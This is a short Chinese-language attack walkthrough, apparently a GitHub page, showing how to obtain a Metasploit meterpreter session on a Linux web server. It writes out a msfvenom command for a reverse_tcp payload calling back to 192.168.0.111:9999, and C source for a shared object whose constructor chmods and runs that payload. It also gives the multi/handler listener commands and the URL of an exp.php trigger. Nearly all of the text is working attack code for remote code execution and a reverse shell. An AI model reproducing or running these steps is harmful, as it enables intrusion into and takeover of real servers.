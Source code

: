 > exp代码来自互联网

## 上线msf

### msfvenom生成payload

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.111 LPORT=9999 -f elf > test
```

### 编译so

```
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
__attribute__ ((__constructor__)) void preload (void)
{
    system("chmod +x /var/www/html/test && /var/www/html/test");
}
```

### msf监听

```
> use exploit/multi/handler
> set payload linux/x86/meterpreter/reverse_tcp
> set LHOST 192.168.0.111
> set LPORT 9999
> exploit
```

### 运行exp

```
http://192.168.0.111:18080/exp.php
```

(exp.php里的路径根据实际情况修改)

![image-20201226113404523](img/image-20201226113404523.png)